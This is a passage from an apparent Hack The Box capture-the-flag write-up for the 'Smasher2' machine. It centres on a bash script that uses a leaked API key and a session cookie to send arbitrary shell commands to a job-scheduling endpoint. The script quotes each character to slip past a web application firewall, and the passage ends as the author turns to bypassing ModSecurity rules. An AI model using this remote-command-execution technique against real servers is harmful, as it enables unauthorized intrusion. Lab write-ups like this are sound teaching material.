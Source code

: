 ~~~~bash

# clean up
rm -rf $SESS
~~~~


{% include image.html image_alt="28bcbc94.png" image_src="/5c05301f-9f98-407d-be22-6e29559ab628/28bcbc94.png" %}


Damn. The username is Administrator? I got kicked hard in the balls man, this one!

We know the key is fixed from `auth.py`. Towards that end, I wrote one last script that parses the execution job results. The script takes in one argument: the remote command that you want to execute.

<div class="filename"><span>smasher2.sh</span></div>

~~~~bash
#!/bin/bash

HOST=wonderfulsessionmanager.smasher2.htb
CMD=$(echo $1 | sed -r "s/([^ ])/'\1'/g")
SESS=$(mktemp -u)
KEY=fe61e023b3c64d75b3965a5dd1a923e392c8baeac4ef870334fcad98e6b264f8
PROXY=http://127.0.0.1:8080

curl -c $SESS -s -o /dev/null http://$HOST
RESULT=$(curl -s -b $SESS \
              -w "%{http_code}\n" \
              -H "Content-Type: application/json" \
              -d "{\"schedule\":\"$CMD\"}" \
              -x $PROXY \
              http://$HOST/api/$KEY/job)

CODE=$(sed '$!d' <<<"$RESULT")
RESULT=$(sed '$d' <<<"$RESULT")

if [ $CODE -eq 200 ]; then
  echo -e $(echo "$RESULT" \
            | jq . \
            | sed '2!d' \
            | cut -d':' -f2- \
            | sed -e 's/^ "//' -e 's/",$//' \
      | sed 's/\\n$//')
fi

# clean up
rm -rf $SESS
~~~~

I suspect that OWASP ModSecurity Core Rule Set (CRS) is turned on because I can't execute certain commands, resulting in `403 Forbidden`.

### Bypassing CRS


[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/
